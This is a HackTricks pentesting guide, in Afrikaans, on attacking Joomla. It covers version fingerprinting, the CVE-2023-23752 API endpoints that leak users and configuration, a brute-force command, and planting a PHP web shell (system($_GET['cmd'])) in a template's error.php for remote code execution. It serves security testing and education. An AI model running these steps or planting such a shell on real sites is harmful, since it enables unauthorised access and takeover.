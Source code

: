 # Joomla

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Joomla Statistieke

Joomla verskaf 'n paar anonieme [gebruik statistieke](https://developer.joomla.org/about/stats.html) soos die verdeling van Joomla, PHP en databasis weergawes en bediener bedryfstelsels wat op Joomla installasies gebruik word. Hierdie data kan deur middel van hul openbare [API](https://developer.joomla.org/about/stats/api.html) opgevraag word.
```bash
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool

{
"data": {
"cms_version": {
"3.0": 0,
"3.1": 0,
"3.10": 6.33,
"3.2": 0.01,
"3.3": 0.02,
"3.4": 0.05,
"3.5": 12.24,
"3.6": 22.85,
"3.7": 7.99,
"3.8": 17.72,
"3.9": 27.24,
"4.0": 3.21,
"4.1": 1.53,
"4.2": 0.82,
"4.3": 0,
"5.0": 0
},
"total": 2951032
}
}
```
## Enumeration

### Discovery/Footprinting

* Kontroleer die **meta**
```bash
curl https://www.joomla.org/ | grep Joomla | grep generator

<meta name="generator" content="Joomla! - Open Source Content Management" />
```
* robots.txt
```
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
[...]
```
* README.txt
```
1- What is this?
* This is a Joomla! installation/upgrade package to version 3.x
* Joomla! Official site: https://www.joomla.org
* Joomla! 3.9 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_3.9_version_history
* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/staging
```
### Weergawe

* In **/administrator/manifests/files/joomla.xml** kan jy die weergawe sien.
* In **/language/en-GB/en-GB.xml** kan jy die weergawe van Joomla kry.
* In **plugins/system/cache/cache.xml** kan jy 'n benaderde weergawe sien.

### Outomaties
```bash
droopescan scan joomla --url http://joomla-site.local/
```
In[ **80,443 - Pentesting Web Metodologie is 'n afdeling oor CMS skanners**](./#cms-scanners) wat Joomla kan skandeer.

### API Ongeauthentiseerde Inligtingsontsluiting:

Weergawes Van 4.0.0 tot 4.2.7 is kwesbaar vir ongeauthentiseerde inligtingsontsluiting (CVE-2023-23752) wat kredensiale en ander inligting sal dump.

* Gebruikers: `http://<host>/api/v1/users?public=true`
* Konfigurasie Lêer: `http://<host>/api/index.php/v1/config/application?public=true`

**MSF Module**: `scanner/http/joomla_api_improper_access_checks` of ruby skrip: [51334](https://www.exploit-db.com/exploits/51334)

### Brute-Force

Jy kan hierdie [skrip](https://github.com/ajnik/joomla-bruteforce) gebruik om te probeer om die aanmelding te brute-force.
```shell-session
sudo python3 joomla-brute.py -u http://joomla-site.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin

admin:admin
```
## RCE

As jy daarin slaag om **admin akrediteer** te verkry, kan jy **RCE binne dit** kry deur 'n snit van **PHP kode** by te voeg om **RCE** te verkry. Ons kan dit doen deur 'n **sjabloon** te **pas**.

1. **Klik** op **`Templates`** onderaan links onder `Configuration` om die sjabloonmenu op te roep.
2. **Klik** op 'n **sjabloon** naam. Kom ons kies **`protostar`** onder die `Template` kolomkop. Dit sal ons na die **`Templates: Customise`** bladsy bring.
3. Laastens kan jy op 'n bladsy klik om die **bladsybron** op te roep. Kom ons kies die **`error.php`** bladsy. Ons sal 'n **PHP een-liner byvoeg om kode-uitvoering te verkry** soos volg:
1. **`system($_GET['cmd']);`**
4. **Stoor & Sluit**
5. `curl -s http://joomla-site.local/templates/protostar/error.php?cmd=id`

## Van XSS na RCE

* [**JoomSploit**](https://github.com/nowak0x01/JoomSploit): Joomla Exploit Script wat **XSS na RCE of ander kritieke kwesbaarhede verhoog**. Vir meer inligting, kyk na [**hierdie pos**](https://nowak0x01.github.io/papers/76bc0832a8f682a7e0ed921627f85d1d.html). Dit bied **ondersteuning vir Joomla weergawes 5.X.X, 4.X.X, en 3.X.X, en laat toe om:**
* _**Privilegie Escalatie:**_ Skep 'n gebruiker in Joomla.
* _**(RCE) Ingeboude Sjablone Wysig:**_ Wysig 'n Ingeboude Sjabloon in Joomla.
* _**(Aangepas) Aangepaste Exploits:**_ Aangepaste Exploits vir Derdeparty Joomla Plugins.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PR's in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
